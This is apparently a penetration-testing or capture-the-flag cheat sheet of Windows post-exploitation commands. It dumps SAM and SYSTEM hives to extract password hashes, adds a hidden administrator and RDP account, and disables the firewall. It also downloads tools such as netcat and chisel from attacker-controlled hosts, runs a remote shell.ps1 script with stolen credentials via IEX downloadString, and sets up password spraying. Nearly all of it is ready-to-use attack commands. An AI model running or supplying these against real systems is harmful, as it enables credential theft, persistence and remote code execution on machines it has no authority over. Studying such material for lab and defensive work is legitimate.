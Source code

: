 ### Dump hashes
````
reg save hklm\sam .\sam
reg save hklm\system .\system
reg save hklm\security .\security

secretsdump.py -sam sam -system system -security security LOCAL > hashes.txt
````
### Add RDP user
````
net user hacker hacker123 /add
net localgroup Administrators hacker /add
net localgroup "Remote Desktop Users" hacker /ADD
````
### Turn off firewall 
````
NetSh Advfirewall set allprofiles state off
````


#### Ping test blind rce
```sh
C:\Windows\System32\cmd.exe /c ping 10.10.14.27
# on linux box: 
tcpdump -i tun0 icmp
```


#### Ping test blind rce like above check if x64 powershell exists
```sh
C:\Windows\SysNative\WindowsPowerShell\v1.0\powershell.exe ping 10.10.14.27
```

#### Download files
```bash
certutil.exe -urlcache -split -f http://10.10.14.10:8000/nc64.exe C:\\Users\\Public\\nc64.exe

powershell -c "(new-object System.Net.WebClient).DownloadFile('http:/
/10.11.0.4/wget.exe','C:\Users\admin\Desktop\wget.exe')"

powershell iwr -uri http://10.10.16.97:8000/chisel.exe -outfile ch.exe # also works in PS ConstrainLanguageMode

expand http://10.10.14.10:8000/watson.exe C:\\Users\\Public\\watson.exe

bitsadmin /transfer debjob /download /priority normal http://10.10.14.10:8000/watson.exe C:\Users\\Public\watson.exe

```

#### md5checksum
```
certutil.exe -hashfile Taihou64.exe MD5
```



#### List directory permissions (win server 2003)
```sh
icacls c:\*. /C
```


#### List alternate data stream files
```sh
dir /r
```

#### Mount windows account share using cifs, "ACCT here is account share name"
```bash
sudo mount -t cifs -o username=Finance //10.1.1.1/ACCT /mnt/win_share/
```

#### Mount vhd file from share
```bash
sudo guestmount --add 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector -ro -v /path/to/mount/directory
```


#### Executing privileged command using valid credentials from powershell
```sh
$username = "Username\Administrator"
$password = "SUPERSECRETPASS"
$secstr = New-Object -TypeName System.Security.SecureString
$password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr
Invoke-Command -ScriptBlock { IEX(New-Object Net.WebClient).downloadString('http://10.10.14.10:8000/shell.ps1') } -Credential $cred -Computer localhost

or - [BETTER]
$username = "Username\Administrator"
$password = ConvertTo-SecureString -AsPlainText -Force 'SUPERSECRETPASS'
$cred = New-Object -typename System.Management.Automation.PSCredential -argumentlist $username, $password
Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.WebClient).downloadString('http://10.10.16.97:8000/shell.ps1')" -Credential $cred

```


#### Logging into the privileged user account using valid credentials from powershell
```sh
$username = 'Username\Administrator'
$securePassword = ConvertTo-SecureString -AsPlainText -Force 'SUPERSECRETPASS'
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword
Enter-PSSession -ComputerName localhost -Credential $credential
```


#### Dump password policy to prepare wordlist for password spray if smb null authentication allows domain enumeration.
```sh
crackmapexec smb 10.10.10.161 --pass-pol -u '' -p ''
```
#### Check account lock policy before password spraying smb
```bash
crackmapexec smb 10.10.10.123 --pass-pol
```

